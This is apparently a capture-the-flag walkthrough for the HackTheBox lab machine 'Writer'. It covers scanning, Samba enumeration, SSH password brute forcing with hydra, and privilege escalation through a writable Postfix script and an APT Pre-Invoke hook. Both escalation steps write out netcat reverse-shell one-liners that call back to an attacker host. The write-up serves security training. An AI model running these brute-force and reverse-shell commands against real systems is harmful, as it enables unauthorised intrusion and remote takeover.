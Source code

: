 # HACKTHEBOX: Writer

## Recon and Enumeration
Start with an nmap scan of the box.
```
# Nmap 7.92 scan initiated Thu Oct 28 21:40:31 2021 as: nmap -A -p- --min-rate 4000 -oA writer 10.10.11.101
Nmap scan report for writer.htb (10.10.11.101)
Host is up (0.059s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results: | smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WRITER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2021-10-29T04:41:00
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 28 21:41:06 2021 -- 1 IP address (1 host up) scanned in 34.36 seconds
```

Samba is running on the machine. Run `enum4linux -a -A 10.10.11.101` to discover users. Two users are discovered: kyle and john
![enum4linux](screenshots/enum4linux.png)

## Exploitation and user.txt
Brute forcing ssh passwords reveals credentials for kyle. This takes a really long time.
```
$ hydra -l kyle -P ~/Wordlists/rockyou.txt 10.10.11.101 ssh -V -u -o creds.txt 
[22][ssh] host: 10.10.11.101   login: kyle   password: marcoantonio
```

Log into the box with the crds `kyle:marcoantonio`
![ssh kyle](screenshots/ssh_kyle.png)

Run linpeas to find privilege escalation.
![linpeas](screenshots/linpeas.gif)

Under *Analyzing Postfix Files* the user john runs a disclaimer script.
![linpeas postfix](screenshots/linpeas_postfix.png)

Note that the file `/etc/postfix/disclaimer` is writable to anyone in the *filter* group.
![filter](screenshots/filter.png)

By modifying the script we can achieve code execution as *john* when we send an email. Create a text file with SMTP commands to be run with postfix. This series of SMTP input will send an email.
```
HELO writer.htb
MAIL FROM:kyle@writer.htb
RCPT TO:kyle@writer.htb
Data
subject: hello
hello

.

quit
```

Start listening with netcat as the attacker with the command `nc -lvnp 9001` and add a reverse shell payload
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.41 9001 >/tmp/f
```
to the top of /etc/postfix/disclaimer.
![john](screenshots/john.gif)

Upgrade the shell and steal john's ssh key. An upgraded shell makes the environment a lot more convenient to work with.
![upgrade](screenshots/upgrade.gif)

Run linpeas again as john.
![wget john](screenshots/wget_john.png)

There appears to be a cronjob running apt-get update.
```
root        4568  0.0  0.0   8352  3360 ?        S    02:30   0:00  _ /usr/sbin/CRON -f
root        4577  0.0  0.0   2608   608 ?        Ss   02:30   0:00      _ /bin/sh -c /usr/bin/apt-get update
```

A quick google search finds this article https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/ with instructions on how to abuse `apt-get update` running as a cronjob.
```
john@writer:~$ groups
john management
john@writer:~$ ls -la /etc/apt/apt.conf.d/
total 48
drwxrwxr-x 2 root management 4096 Jul 28 09:24 .
drwxr-xr-x 7 root root       4096 Jul  9 10:59 ..
-rw-r--r-- 1 root root        630 Apr  9  2020 01autoremove
-rw-r--r-- 1 root root         92 Apr  9  2020 01-vendor-ubuntu
-rw-r--r-- 1 root root        129 Dec  4  2020 10periodic
-rw-r--r-- 1 root root        108 Dec  4  2020 15update-stamp
-rw-r--r-- 1 root root         85 Dec  4  2020 20archive
-rw-r--r-- 1 root root       1040 Sep 23  2020 20packagekit
-rw-r--r-- 1 root root        114 Nov 19  2020 20snapd.conf
-rw-r--r-- 1 root root        625 Oct  7  2019 50command-not-found
-rw-r--r-- 1 root root        182 Aug  3  2019 70debconf
-rw-r--r-- 1 root root        305 Dec  4  2020 99update-notifier
```

It appears that the directory `/etc/apt/apt.conf.d/` is writable to the management group so the cronjob exploit will work.
```
sadeli@attack:~$ nc -lvnp 1234
john@writer:~$ cd /etc/apt/apt.conf.d/
john@writer:/etc/apt/apt.conf.d$ echo 'APT::Update::Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc SADELIATTACK 1234 >/tmp/f”};’ > 40pwn
sadeli@attack:~$ nc -lvnp 1234
Connection from 10.10.11.101:34072
sh: 0: can't access tty; job control turned off
# whoami
root
```
